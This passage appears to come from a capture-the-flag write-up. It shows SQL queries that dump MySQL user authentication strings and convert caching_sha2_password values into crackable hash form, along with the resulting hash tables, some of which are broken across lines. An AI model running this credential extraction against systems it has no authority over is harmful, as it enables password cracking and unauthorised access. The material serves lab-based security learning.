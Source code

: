 I searched for hashes to crack in `mysql` database, in table `user`
```sql
mysql> SELECT `Host`, `User`, `Authentication_string`, `plugin`  FROM `user`;
```

```
+-----------+------------------+------------------------------------------------------------------------+-----------------------+
| Host      | User             | Authentication_string                                                  | plugin                |
+-----------+------------------+------------------------------------------------------------------------+-----------------------+
| %         | clocky_user      | $A$005$~g]5C]]hmVcZUf8oIT96B7VRZhQibsUhSe5eKbHm4Lq1ks8pzxDkNM9 | caching_sha2_password |
/xuiN2%#pIV5@8=o1xaxXD13/Mh0rlloe/WqcmmaBDMF6r7wjvFGgoTSaB | caching_sha2_password |
| localhost | clocky_user      | $A$005$cg▒|\>B^:yCR0kSV+XwNDxm2lDD5W3J9551gjlVmOZ9Z9hH2Szailxm2VkL. | caching_sha2_password |
| localhost | debian-sys-maint | $A$005$Ebh3▒N5a#f6HM?xF*uSqjNbbUYGitDq/yFLM8LbauDh83QtraQaETy6nZWtWc2 | caching_sha2_password |
| localhost | dev              | $A$005$
8w|Q!N]rZX!mZ\?ok/WxQEdeRLNgqXpWEf4sJonZecawFUizD8FokeI5F. | caching_sha2_password |
| localhost | mysql.infoschema | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED | caching_sha2_password |
| localhost | mysql.session    | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED | caching_sha2_password |
| localhost | mysql.sys        | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED | caching_sha2_password |
| localhost | root             |                                                                        | auth_socket           |
+-----------+------------------+------------------------------------------------------------------------+-----------------------+
```

Sadly, none of these strings worked as hashes. But with [this article](https://www.percona.com/blog/brute-force-mysql-password-from-a-hash/) I've found a way to extract them

```sql
mysql> SELECT `User`, CONCAT('$mysql',LEFT(authentication_string,6),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) AS hash FROM mysql.user WHERE plugin = 'caching_sha2_password' AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%' AND authentication_string !='';
```

```
+------------------+----------------------------------------------------------------------------------------------------------------------------------------------+
| User             | hash                                                                                                                                         |
+------------------+----------------------------------------------------------------------------------------------------------------------------------------------+
| clocky_user      | $mysql$A$005*077E1B6B675D350F435D5D1C686D12566C08635A*5566386F49543936423756525A68516962735568536535654B62486D344C71316B7338707A78446B4E4D39 |
| dev              | $mysql$A$005*0D172F787569054E322523067049563540383D17*6F31786178584431332F4D6830726C6C6F652F5771636D6D6142444D46367237776A764647676F54536142 |
| clocky_user      | $mysql$A$005*63671A7C5C3E425E3A0C794352306B531456162B*58774E44786D326C44443557334A39353531676A6C566D4F5A395A39684832537A61696C786D32566B4C2E |
| debian-sys-maint | $mysql$A$005*456268331A4E3561236636480E4D3F78462A7553*716A4E6262555947697444712F79464C4D384C62617544683833517472615161455479366E5A5774576332 |
| dev              | $mysql$A$005*1C160A38777C5121134E5D725A58216D5A1D5C3F*6F6B2F577851456465524C4E6771587057456634734A6F6E5A656361774655697A4438466F6B654935462E |
+------------------+----------------------------------------------------------------------------------------------------------------------------------------------+
```
I've added `User` column for clarity
